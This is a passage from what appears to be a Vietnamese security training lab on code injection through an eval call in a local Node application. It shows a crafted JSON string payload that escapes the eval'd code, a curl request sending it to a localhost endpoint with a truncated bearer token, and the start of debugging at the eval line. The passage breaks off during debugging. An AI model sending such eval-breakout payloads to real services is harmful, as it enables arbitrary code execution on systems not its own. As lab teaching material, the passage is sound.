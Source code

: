 
# 11. Thử Nghiệm Tiêm Mã (Code Injection)

Mục tiêu của chúng ta là tiêm mã vào ứng dụng qua lỗ hổng trong hàm `eval` bằng cách gửi một payload đơn giản, như một hàm `console.log`, để kiểm tra xem mã có thực thi thành công hay không. Chúng ta sẽ đi qua các bước thử nghiệm sau:

### Bước 1: Tạo Payload Tiêm Mã

Chúng ta sẽ sử dụng một payload đơn giản để thử nghiệm việc tiêm mã vào ứng dụng, với mục tiêu là kiểm tra log đầu ra trong console của Node. Để làm điều này, chúng ta sẽ thêm ký tự chấm phẩy `;` sau dấu đóng ngoặc của hàm để bắt đầu một dòng mã mới và thêm mã tiêm vào sau đó.

**Payload Tiêm Mã**:
```json
{
  "text": "'}); console.log('pwned')//"
}
```

### Bước 2: Gửi Yêu Cầu

Sau khi tạo payload, chúng ta sẽ gửi yêu cầu tới endpoint `/api/service/generate` để kiểm tra xem có gì xảy ra.

**Lệnh `curl`**:
```bash
curl -s -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1N...SNIP...9R6zeoubrQTbUiThBpeQD7_DWibgo" -d "{ \"text\": \"'}); console.log('pwned')//\" }" http://localhost:5000/api/service/generate
```

**Phản hồi**:
```json
{"message":"Could not generate QR code."}
```

Chúng ta nhận được thông báo lỗi như mong đợi, nhưng khi kiểm tra trong Debug Console của VSCode (CMD/CTRL+SHIFT+Y), không có gì được ghi vào console. Điều này có nghĩa là việc tiêm mã chưa thành công. Bây giờ, chúng ta cần debug để xác định nguyên nhân.

### Bước 3: Debugging

Để chắc chắn rằng payload của chúng ta đã đến đúng hàm `eval` và bị xử lý như dự định, chúng ta cần thiết lập một breakpoint tại hàm `eval` (dòng 9) và kiểm tra giá trị của `onError`.

1. **Thiết lập Breakpoint**: Đặt breakpoint tại dòng 9 trong mã nguồn và gửi lại yêu cầu với payload.
2. **Kiểm tra giá trị `onError`**: Chúng ta thấy rằng giá trị của `onError` là:
   ```javascript
   throw { message: 'The input "' }; console.log('pwned'); //" contains the following invalid characters: [',']', statusCode: 403})
   ```
   Đây là mã mà chúng ta mong đợi. Không có gì sai với payload đã gửi.

